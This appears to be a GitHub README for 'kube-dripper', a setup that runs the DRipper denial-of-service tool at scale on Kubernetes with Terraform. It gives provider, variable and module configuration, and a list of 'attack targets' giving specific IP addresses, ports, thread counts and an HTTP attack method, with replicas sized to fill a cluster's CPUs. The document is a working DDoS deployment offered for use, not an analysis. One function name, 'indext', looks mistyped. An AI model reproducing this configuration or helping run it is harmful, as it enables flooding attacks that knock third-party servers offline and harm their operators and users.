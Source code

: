 # kube-dripper
DRipper batch deploy on Kubernetes via Terraform

## how to use it

I'm assuming you already have a Kubernetes cluster running somewhere, if not - get one!

You need to create a `provider.tf`:
```terraform
provider "kubernetes" {
  config_path = "~/.kube/config"
}
```

Copy [variables.tf](variables.tf) to your folder.

Create `terraform.tfvars`:
```terraform
######################################################################################################
# Kubernetes
######################################################################################################
vcpus_per_node = 4
memory_per_node = 16
node_pool_size = 5

######################################################################################################
# Attack targets
######################################################################################################
attack_hosts = [
  "217.12.104.100,80,100,http",
  "92.38.145.145,80,100,http",
  "92.38.145.145,443,100,http",
  "92.38.145.145,444,100,http"
]
```

Then create `main.tf` with the following content:
```terraform
module "ripper_deployment" {
  source = "./modules/v1_deployment"
  for_each = toset(var.attack_hosts)

  deployment_name = "ripper-${indext(var.attack_hosts, each.value)}-deployment"
  namespace = "default"
  
  ripper_attack_host = split(",", each.value)[0]
  ripper_attack_port = split(",", each.value)[1]
  thread_count       = split(",", each.value)[2]
  attack_method      = split(",", each.value)[3]

  number_of_replicas = (var.vcpus_per_node / 0.5 * var.node_pool_size) / length(var.attack_hosts)
}
```

`attack_hosts` is a list of comma-separated values: `<host>,<port>,<thread_count>,<attack_type>`, for instance:
```terraform
attack_hosts = [
  "217.12.104.100,80,100,http",
  "92.38.145.145,80,100,http",
  "92.38.145.145,443,100,http",
  "92.38.145.145,444,100,http"
]
```
